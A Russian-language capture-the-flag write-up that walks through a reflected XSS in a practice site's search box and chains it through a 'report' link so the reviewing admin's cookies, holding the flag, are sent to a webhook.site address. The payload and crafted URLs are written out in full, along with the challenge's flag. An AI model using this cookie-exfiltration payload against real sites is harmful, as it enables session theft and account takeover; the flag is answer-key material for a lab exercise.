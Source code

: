 # Клиент всегда прав: Write-up #
Нас встречает ссайт с тремя ссылками на различные посты. Заметим, что иконки возле ссылок тоже кликабельные.

![](writeup/report.png)

И вот, какой url они выдают:

    http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?publication=ilon-mask
Уже наводит на определённые крысиные мысли...

Теперь попробуем поковырять поисковую строку, не просто так же она здесь. Пробуем простейший xss:

    <script>alert(1)</script>
    
Есть контакт!

![](writeup/xss.png)

Раз уж есть xss и наивный админ, который смотрит наши репорты, можно попробовать украсть его куки. Вставим в параметр `report` ссылку с параметром `search`, в который запихнём xss.
Для принятия куки лучше использовать [webhook.site](https://webhook.site). Он генерирует ссылку, которую будем использовать в пэйлоаде. Итоговый xss:

    <script>document.location="https://webhook.site/033ff524-96a4-4482-ba69-92b7a21b289b/?c="%252bencodeURIComponent(document.cookie)</script>

Кидаем это в параметр `search` а затем получившейся ссылкой заменяем параметр `report`:

    http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location="https://webhook.site/033ff524-96a4-4482-ba69-92b7a21b289b/?c="%252bencodeURIComponent(document.cookie)</script>

Идём смотреть куки на вебхуке и видим флаг:

`flag=CODEBY{r3fl3cted_XSS_expl0it3d}`

